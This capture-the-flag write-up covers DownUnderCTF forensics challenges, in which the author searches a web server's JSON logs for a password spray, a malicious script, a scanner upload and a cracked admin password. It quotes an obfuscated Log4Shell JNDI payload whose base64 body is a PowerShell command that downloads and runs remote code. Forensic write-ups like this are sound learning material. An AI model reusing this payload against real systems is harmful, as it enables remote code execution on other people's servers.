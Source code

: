 The shop challenges were by far my favourite and my first real experience to the world of DFIR.

The setup is to download a JSON file and install splunk. Instead of doing that I decided to write a basic python script to analyse the file as I didnt want to spend extra time learning new software. The script (at the time of the ctf) was very basic and showed the unique values of the entire file. The point was to then sort through this to find anything strange. After the ctf I cleaned it up and gave some basic cli UI to help people interact with it.

### Challenge 1. Shop-Knock Knock Knock

It talks about a bruteforce/password spray against the website.
From a biased offensive mindset this is normally done via a post request. So I opened the JSON file and CTRL+F loking for POST. The first hit was for this IP: 58.164.62.91, doing a whois shows that the ISP is Telstra and the email is abuse@telstra.net

### Challenge 2. Logging for what?

This time we need to find the name of the script that was run. I used the python script and dumped all the unique values over url and useragent I found an intresting b64 command.
```powershell
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://41.108.181.141:5552/Basic/Command/Base64/cG93ZXJzaGVsbC5leGUgLWV4ZWMgYnlwYXNzIC1DICJJRVggKE5ldy1PYmplY3QgTmV0LldlYkNsaWVudCkuRG93bmxvYWRTdHJpbmcoJ2h0dHBzOi8vZG93bnVuZGVyY3RmLmNvbS9wVENOcDVwNkxQMGQ3cUE3N3l2YjRTSGY0MCcpOyI=}
```
Passing it into cyberchef gives a downlaodstring of this url 'https://downunderctf.com/pTCNp5p6LP0d7qA77yvb4SHf40' meaning the script/flag is pTCNp5p6LP0d7qA77yvb4SHf40

### Challenge 3. I'm just looking

Need to find the name of a vulnerability scanning tool.
While looking over the url field for the challenge above I found a reference to nuclei.php shop.downunderctf.com/wp-content/uploads/simple-file-list/nuclei.php Which happens to be the flag.

### Challenge 4. Oi! Get out of there!

Need to find the old password for the admin.
While going over the output of url there is a ref parameter in base64. this decodes to a hash. Cracking all four hashes gives these four password:
Password1, ozzieozzieozzie, downunder2 and crackstation. Trying these gives ozzieozzieozzie to be the correct flag.